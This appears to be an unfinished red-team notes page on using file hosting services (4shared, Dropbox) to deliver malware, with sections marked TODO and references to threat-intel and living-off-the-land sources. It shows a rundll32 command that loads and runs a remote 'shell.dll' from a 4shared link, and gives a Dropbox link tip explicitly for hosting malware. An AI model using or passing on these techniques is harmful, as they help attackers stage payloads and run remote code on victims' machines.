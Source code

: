 # File Hosting Providers

## 4shared

TODO: Fill in this info

```
C:\> rundll32.exe \\<4shared_link>\shell.dll,Main
```

## Dropbox

TODO: Fill this info

Change the parameter `dl=1` to `dl=0` when hosting malware.

---
## References

- [[DLL Execution]]

- [Bumblebee Loader Resurfaces in New Campaign](https://intel471.com/blog/bumblebee-loader-resurfaces-in-new-campaign)

- [LOLAPPS: Dropbox](https://lolapps-project.github.io/lolapps/Web/dropbox/)

- [How to force a shared link to download or render](https://help.dropbox.com/share/force-download)